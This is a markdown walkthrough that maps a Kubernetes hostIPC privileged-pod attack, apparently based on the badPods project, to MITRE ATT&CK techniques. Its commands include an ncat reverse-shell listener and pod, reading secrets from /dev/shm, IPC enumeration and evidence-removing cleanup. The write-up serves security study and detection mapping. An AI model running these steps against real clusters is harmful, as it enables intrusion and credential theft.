

# MITRE ATT&CK Mapping: HostIPC Pod

---

## Attack Flow Overview



---

## Phase 1: Pod Creation & Access

### Step 1.1: Deploy pod with hostIPC privilege

**Command:**
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostipc/pod/hostipc-exec-pod.yaml
```

**MITRE Techniques:**
- **T1609** - Container Administration Command
  - Deploy container with hostIPC privilege to access host's inter-process communication mechanisms

**Pod Configuration:**
```yaml
spec:
  hostIPC: true
```

---

### Step 1.2: Exec into the pod

**Command:**
```bash
kubectl exec -it hostipc-exec-pod -- bash
```

**MITRE Techniques:**
- **T1609** - Container Administration Command
  - Execute bash session inside the container to begin exploration

---

### Step 1.3: Alternative - Reverse shell method

**Commands:**
```bash
# Step 1: Set up listener
ncat --ssl -vlp 3116

# Step 2: Create pod with reverse shell
HOST=\"10.0.0.1\" PORT=\"3116\" envsubst < ./manifests/hostipc/pod/hostipc-revshell-pod.yaml | kubectl apply -f -

# Step 3: Catch the shell
# Connection received
```

**MITRE Techniques:**
- **T1095** - Non-Application Layer Protocol
  - Encrypted reverse shell connection using ncat --ssl for command and control

---

## Phase 2: Post Exploitation

### Step 2.1: Enumerate shared memory directory

**Command:**
```bash
ls -al /dev/shm/
```

**MITRE Techniques:**
- **T1083** - File and Directory Discovery
  - Enumerate /dev/shm directory to find files shared between host and pods with hostIPC

---

### Step 2.2: Access sensitive files in shared memory

**Command:**
```bash
cat /dev/shm/secretpassword.txt
```

**MITRE Techniques:**
- **T1005** - Data from Local System
  - Read sensitive data stored in shared memory location accessible from both host and container

**Example Output:**
```
secretpassword=BishopFox
```

---

### Step 2.3: Enumerate IPC facilities on the host

**Command:**
```bash
ipcs -a
```

**MITRE Techniques:**
- **T1082** - System Information Discovery
  - Enumerate all inter-process communication facilities (shared memory, semaphores, message queues)

**Detailed enumeration:**
```bash
ipcs -m  # Shared memory segments
ipcs -s  # Semaphore arrays
ipcs -q  # Message queues
```

---

### Step 2.4: Monitor shared memory for changes

**Command:**
```bash
watch -n 1 'ls -al /dev/shm/'
```

**MITRE Techniques:**
- **T1056.001** - Input Capture: Keylogging
  - Monitor shared memory directory for new files containing credentials or sensitive information
- **T1119** - Automated Collection
  - Continuously monitor for data written to shared memory by other processes

---

### Step 2.5: Access IPC message queues (if available)

**Command:**
```bash
# List message queues
ipcs -q

# Read from message queue (requires specific tools)
# ipcrm -q [ID]  # Remove message queue after reading
```

**MITRE Techniques:**
- **T1005** - Data from Local System
  - Access inter-process communication message queues that may contain sensitive data
- **T1557** - Adversary-in-the-Middle
  - Intercept IPC communications between processes on the host

---

## Phase 3: General Pod Attacks

### Step 3.1: Standard pod exploitation techniques

**Procedures:**

Even with only `hostIPC=true`, standard pod attacks apply:

- Access cloud metadata service
- Query kubelet/kube-apiserver with anonymous-auth
- Hunt for vulnerable services in cluster
- Exploit known Kubernetes CVEs

**MITRE Techniques:**
- **T1552.005** - Unsecured Credentials: Cloud Instance Metadata API
  - Query cloud metadata endpoints for IAM credentials

**Reference:** See [nothing-allowed/README.md](../nothing-allowed) for details

---

## Cleanup

### Delete the pod

**Command:**
```bash
kubectl delete pod hostipc-exec-pod
# Or using manifest
kubectl delete -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostipc/pod/hostipc-exec-pod.yaml
```

**MITRE Techniques:**
- **T1070.004** - Indicator Removal: File Deletion
  - Remove malicious pod to clean up evidence of exploitation

---

## Summary

### Key Attack Vectors

1. **Shared Memory Access** - Primary attack vector via `/dev/shm`
2. **IPC Mechanisms** - Access to shared memory segments, message queues, semaphore arrays
3. **Limited Impact** - Exploitation potential depends on whether host processes actively use IPC

### Configuration Details

```yaml
spec:
  hostIPC: true
```

This single privilege grants access to:
- `/dev/shm` directory (shared between host and all pods with hostIPC)
- All IPC facilities on the host
- Shared memory segments created by host processes
- Message queues used for inter-process communication
- Semaphore arrays for process synchronization
